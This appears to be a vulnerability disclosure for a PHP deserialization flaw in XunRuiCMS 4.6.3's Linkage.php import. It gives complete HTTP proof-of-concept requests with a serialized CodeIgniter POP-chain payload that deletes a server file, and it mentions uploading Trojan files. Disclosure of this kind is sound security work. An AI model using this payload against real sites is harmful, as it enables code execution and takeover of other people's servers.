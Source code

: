 # XunRuiCms has deserialization  and code excute vulnerability.

## supplier 
https://gitee.com/dayrui/xunruicms/archive/refs/tags/4.6.3.zip
## Vulnerability file
Linkage.php

## describe

There is a deserialization vulnerability in the latest version of Xunrui CMS gitee release, which can execute code and construct POP chains according to the purpose of exploitation, such as RCE chains, execute system commands. A malicious attacker is able to gain privileges on the server.

**Code analysis**    

upload file, and get the content of the file and pass it to the dr_string2array. The content is passed to the unserialize function.Causes code to execute.A malicious attacker is able to gain privileges on the server.

![Image](https://github.com/user-attachments/assets/818ee3e6-525c-4cad-b479-72b7406cf5c5)

![Image](https://github.com/user-attachments/assets/5b954fe5-aa63-49dd-ab3f-ea5951a5143e)

## POC

POC1

```
POST /admin8bb7bf91c8d6.php?c=linkage&m=import_upload&key=1 HTTP/1.1
Host: xunruicms2025
Content-Length: 601
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryA8e80jljbZzkC1lP
Origin: http://xunruicms2025
Referer: http://xunruicms2025/admin8bb7bf91c8d6.php?c=linkage&m=import&key=1&is_iframe=1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 37f037ac60e6a7104d81349739852ba3_member_uid=1; 37f037ac60e6a7104d81349739852ba3_member_cookie=c2486e29c0b7f7ce1b6ff520111fb346; csrf_cookie_name=19d383ddd56777a7cf3c3902bc02a4e1; ci_session=uan9r51o16unuor7cpf5h090qnjrkm13
Connection: close

------WebKitFormBoundaryA8e80jljbZzkC1lP
Content-Disposition: form-data; name="csrf_test_name"

19d383ddd56777a7cf3c3902bc02a4e1
------WebKitFormBoundaryA8e80jljbZzkC1lP
Content-Disposition: form-data; name="file_data"; filename="POP.json"
Content-Type: application/json

O:39:"CodeIgniter\\Cache\\Handlers\\RedisHandler":1:{s:5:"redis";O:45:"CodeIgniter\\Session\\Handlers\\MemcachedHandler":2:{s:7:"lockKey";s:8:"pass.txt";s:9:"memcached";O:38:"CodeIgniter\\Cache\\Handlers\\FileHandler":2:{s:6:"prefix";s:10:"E:\\XunRui\\";s:4:"path";s:0:"";}}}
------WebKitFormBoundaryA8e80jljbZzkC1lP--

```

poc2

```
GET /admin8bb7bf91c8d6.php?c=linkage&m=import_add&key=1&page=1 HTTP/1.1
Host: xunruicms2025
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://xunruicms2025/admin8bb7bf91c8d6.php?c=linkage&m=import_add&key=1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 37f037ac60e6a7104d81349739852ba3_member_uid=1; 37f037ac60e6a7104d81349739852ba3_member_cookie=c2486e29c0b7f7ce1b6ff520111fb346; csrf_cookie_name=19d383ddd56777a7cf3c3902bc02a4e1; ci_session=uan9r51o16unuor7cpf5h090qnjrkm13
Connection: close


```

**Result**

Obtained system permissions and deleted pass.txt files.

![Image](https://github.com/user-attachments/assets/7249220d-5bf2-4c98-a8d5-f3297ce0dc65)

![Image](https://github.com/user-attachments/assets/07f4ce66-1fbe-441c-be16-aa93749a4b23)

OR use this  vulnerability to upload Trojan files. Obtain server permissions

![Image](https://github.com/user-attachments/assets/4c99ee7a-38e7-439a-9e53-e27d43162201)
